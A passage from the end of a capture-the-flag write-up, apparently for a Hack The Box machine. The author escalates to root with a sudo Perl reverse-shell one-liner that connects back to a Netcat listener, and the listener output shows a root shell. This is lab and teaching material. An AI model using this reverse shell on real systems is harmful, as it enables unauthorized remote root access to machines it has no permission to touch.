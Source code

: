 After setting up a Netcat listener on our host, I ran the following command on the compromised host:

```
sudo /usr/bin/perl -e 'use Socket;$i="10.10.14.36";$p=4242;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/sh -i");};'
```

Looking back at my Netcat listener we got a connection back!

```
root@kali-[~]nc -lvnp 4242
listening on [any] 4242 ...
connect to [10.10.14.36] from (UNKNOWN) [10.10.10.56] 42940
/bin/sh: 0: can't access tty; job control turned off
# whoami && id
root
uid=0(root) gid=0(root) groups=0(root)
```

Overall was a pretty nice box. I always tend to enjoy the boxes that deviate away from an easy pwn using Metasploit so it was fun pwning this box.
